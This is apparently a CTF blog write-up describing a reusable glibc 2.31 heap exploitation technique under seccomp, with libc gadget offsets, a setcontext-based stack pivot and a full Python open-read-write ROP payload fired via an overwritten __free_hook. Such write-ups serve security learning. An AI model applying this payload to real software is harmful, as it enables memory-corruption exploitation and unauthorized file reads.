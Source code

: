 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP"
subtitle: ""
summary: "My technique of solving glibc 2.31 heap challenges with seccomp"
authors: [midas]
tags: []
categories: []
date: 2021-01-03T04:40:50-08:00
lastmod: 2021-01-03T04:40:50-08:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


## Introduction
*In this post, I assume that readers are somewhat comfortable with heap exploitation. If you are not, you can start with other simpler techniques available on the Internet to get used to it first.*

Recently, I have seen a lot of glibc 2.31 heap pwning challenges in various CTFs that include `seccomp` filters which prevent you from directly overwrite `__free_hook` with `one_gadget` to pop a shell. I have also read some writeups of different CTF players using different techniques to workaround the `seccomp` filters, but it seems that no one has written about a generalized exploitation technique for this kind of challenge. Therefore in this blog post, I will demonstrate the technique I use, analyze how it works and provide you with a template that can be reused if the pre-requisites are met.

## Pre-requisites
For this technique to be successfully executed, the following conditions must be met:
- You can leak `libc` and `heap`'s base addresses. 
- You have a primitive that can overwrite `__free_hook`.
- My ROP chain is an `open-read-write` chain, which means that the only syscalls that need to be allowed by `seccomp` are `open`, `read` and `write` (this is true for most challenges). It doesn't need `mmap` or `mprotect` to work.
- You can write to a heap chunk that is large enough to contain the payload, which is 0x168 bytes, if it's too much, you can consider using other shorter payloads with `mprotect` or `mmap`, but the idea is the same (and of course you must be able to `free` that chunk).
- You know the absolute path to `flag` file (which you can most of the time ask the organizers).

## Gadgets
As I mentioned in the title, this technique is a ROP chain on the heap, and with ROP, the most important things are the gadgets. All the gadgets that are used in this technique are in `libc` itself, the `libc-2.31.so` version I used here has `md5sum` of `1ec728d58f7fc0d302119e9bb53050f8`. If you have a `libc-2.31.so` that has different checksum, the offset might be different, but the gadgets should still be there. Below are the gadgets I use:

Firstly, the ordinary gadgets that deal with manipulating registers and `syscall`:
```python
# l.address is leaked base of libc
pop_rdi = l.address + 0x26b72
pop_rsi = l.address + 0x27529
pop_rdx_r12 = l.address + 0x11c371
push_rax = l.address + 0x45197
pop_rax = l.address + 0x4a550
xchg_eax_edi = l.address + 0x2ad2b
syscall_ret = l.address + 0x66229
```

All the gadgets except `syscall_ret` can be found using this [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool. For `syscall_ret`, you can use this command (thanks `@Catafact` for this): 
```
objdump -D -Mintel ./libc-2.31.so | grep -B 1 ret | grep -A 1 syscall
``` 

The next 2 gadgets are crucial for this technique, the first one is at `call_gadget = l.address + 0x154930`:
```x86asm
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

This gadget is what we will overwrite `__free_hook` with. It allows us to call an arbitrary function through `rdx`, if we control `rdi`, which is exactly the parameter that will be passed to `free()`. 

The next gadget is inside libc function `setcontext()`, at offset `setcontext_gadget = l.address + 0x580DD`:
```x86asm
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
ret
```
Because we control `rdx`, this gadget allows us to set almost every registers (with the exception of `rax`, `r10` and `r11`).

## The payload
My payload can be divided into 3 parts, which I will explain one by one. 

The first part:
```python
base = heap + <.....>             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
payload += p64(base)              # <-- [rdi + 8] = rdx
payload += b"B"*0x10              # padding
payload += p64(setcontext_gadget) # <-- [rdx + 0x20]
```
This is the `base` of our payload, where `rdi` will be pointed to when `free()` is called. I set `[rdi + 8]` to also be `base`, so that when `mov rdx, [rdi+8]` is executed, `rdx` will also point at `base`. Then `[rdx + 0x20]` will be the address of the `setcontext()` gadget, which will be called.

The second part, which will be utilized after `setcontext_gadget` is called:
```python
payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b"A"*0x10              # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(base + 0x258)      # <-- [rdx + 0x68] = rdi (ptr to flag path)
payload += p64(0)                 # <-- [rdx + 0x70] = rsi (flag = O_RDONLY)
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b"A"*8                 # padding
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(base + 0x1b0)      # <-- [rdx + 0xa0] = rsp, perfectly setup for it to ret into our chain
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx, will be pushed to rsp
```
With the comments, it is self-explanatory. This is where all the registers are set based on `rdx`. Even though there are lots of registers to set, I'm only interested at `rdi` and `rsi`, which will be the parameters to `sys_open`, along with `rcx` and `rsp`, which must be carefully set so that after `push rcx` is executed, `rsp` must be in the correct position to execute the third part, which is the ROP chain on the heap, `rcx` is set to `pop_rax` gadget to start the chain.

The third part:
```python
payload += p64(2)
payload += p64(syscall_ret) # sys_open("/path/to/flag", O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # destination buffer, can be anywhere readable and writable
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret) # sys_read(eax, heap + 0x15000, 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # buffer
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall_ret) # sys_write(1, heap + 0x15000, 0x100)
payload += b"/path/to/flag"
```
Nothing much to say about this part, if you know ROP, you know that this is an ordinary `open-read-write` chain.

After allocating this `payload` and overwriting `__free_hook` with the `call_gadget`, calling `free()` on it will execute the chain and print out the `flag`.

## Examples
Here are some writeups to challenges that me and my team solved using this technique:
- [TetCTF2021 - cache_v1 & cache_v2](https://blog.efiens.com/post/tetctf2021-pwn-writeups/) by `@midas` (me).
- [ASCIS/SVATTT2020 Finals - Secret Keeper](https://blog.efiens.com/post/ascis2020-final-secret-keeper/) by `@pickaxe`

